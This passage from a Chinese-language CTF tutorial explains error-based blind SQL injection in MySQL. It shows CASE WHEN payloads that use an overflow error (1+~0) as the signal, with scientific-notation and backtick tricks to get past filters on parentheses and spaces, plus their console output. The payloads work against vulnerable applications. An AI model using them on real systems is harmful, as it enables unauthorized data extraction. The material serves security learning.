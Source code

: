这时因为1>0用真，所以返回true。若语句的判断均没有结果，则返回null：

![img](assets/1-15.png)

当题目需要盲注但过滤了if()或括号等让我们不能使用函数时，我们就可以使用case when进行盲注：

```
mysql> SELECT * FROM tb;
+-------------------+------+
| flag              | id   |
+-------------------+------+
| flag{test_f1llag} |    1 |
+-------------------+------+
1 row in set (0.00 sec)
mysql> SELECT id FROM tb WHERE id=0 || CASE 1 WHEN flag REGEXP '^f' THEN 1 ELSE 1+~0 	   END;
+------+
| id   |
+------+
|    1 |
+------+
1 row in set (0.00 sec)
```

如果满足条件，则不会触发后面1+~0，正常回显，而如果不满足条件，则会引发报错：

```
mysql> SELECT id FROM tb WHERE id=0 || CASE 1 WHEN flag REGEXP '^a' THEN 1 ELSE 1+~0 END;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(1 + ~(0))'
```

这是因为`~` 为取反操作符，0 取反即为最大值，再加 1 就会导致溢出报错了，因此我们可以这样基于报错的盲注来爆破flag。当然，这道题是当年虎符CTF的题，没这么简单，还有其他的限制，这里我们可以使用学计数法和单(反)引号绕过空格，也就是这样构造：

```
mysql> SELECT id FROM tb WHERE id=0 ||CASE+1e0WHEN`flag`REGEXP'^f'THEN+1e0ELSE~0e0+~0e0END;
+------+
| id   |
+------+
|    1 |
+------+
1 row in set (0.00 sec)

mysql> SELECT id FROM tb WHERE id=0 ||CASE+1e0WHEN`flag`REGEXP'^a'THEN+1e0ELSE~0e0+~0e0END;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(~(0e0) + ~(0e0))'
```
